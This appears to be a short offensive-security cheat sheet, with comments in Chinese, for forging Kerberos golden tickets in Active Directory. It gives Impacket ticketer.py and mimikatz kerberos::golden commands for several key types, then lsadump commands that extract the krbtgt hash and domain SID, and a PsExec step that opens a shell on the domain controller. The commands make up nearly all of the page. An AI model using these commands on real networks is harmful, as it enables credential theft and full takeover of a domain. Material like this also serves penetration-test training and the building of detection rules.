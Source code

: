 - krbtgt NTLM
- Domain SID
### Impacket
```bash
 python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```
### mimikatz

AES 256 Key:

 ```powershell
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>
```

AES 128 Key: 

 ```powershell
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>
```

NTLM:

```powershell
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>
```
# Leverage
```powershell 
   privilege::debug
   lsadump::lsa /patch #获取krbtgt hash && Domain SID
   
   kerberos::purge #清空内存票据
   #将当前进程的令牌提升为具有系统权限的令牌，然后使用该令牌创建一个新的命令提示符进程。
   misc::cmd
   PsExec.exe \\dc1 cmd.exe
```
*使用域名而不是IP地址以触发Kerberos认证*
`psexec.exe \\192.168.50.70 cmd.exe` is Denied

